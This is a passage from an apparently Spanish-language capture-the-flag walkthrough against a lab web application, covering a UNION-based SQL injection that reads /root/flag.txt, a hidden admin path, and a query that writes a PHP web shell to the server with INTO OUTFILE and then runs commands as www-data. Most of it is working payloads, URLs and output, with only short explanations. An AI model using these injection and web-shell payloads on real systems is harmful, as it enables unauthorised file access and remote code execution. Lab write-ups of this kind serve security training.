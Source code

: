 ```sql
' UNION SELECT 1,
  IF(LENGTH(LOAD_FILE('/root/flag.txt')) > 0,
     LENGTH(LOAD_FILE('/root/flag.txt')),0),
  3,4,5-- -
```

**Resultado**:

```
0	3	4	5
```

Indicador de que acceso directo no funciona inicialmente.

**Explicación**: Las técnicas de Blind SQLi permiten extraer datos bit a bit cuando la salida directa está restringida.

---

## Paso 21: Descubrimiento de directorio administrativo oculto

**URL**:

```
http://94.237.57.108:31396/dashboard/dashboard.php/admin//admin.php
```

Acceso a panel administrativo sin CSS.

**Explicación**: Buscar rutas alternativas revela páginas administrativas ocultas con diferentes permisos.

---

## Paso 22: RCE exitoso en `/dashboard`

**Query**:

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>",null,null,null,null
  INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

**Shell**:

```
http://94.237.57.108:31396/dashboard/shell.php?cmd=id
```

**Resultado**:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Explicación**: Escribir el shell en el subdirectorio `/dashboard` elude restricciones de permisos y habilita RCE bajo `www-data`.

---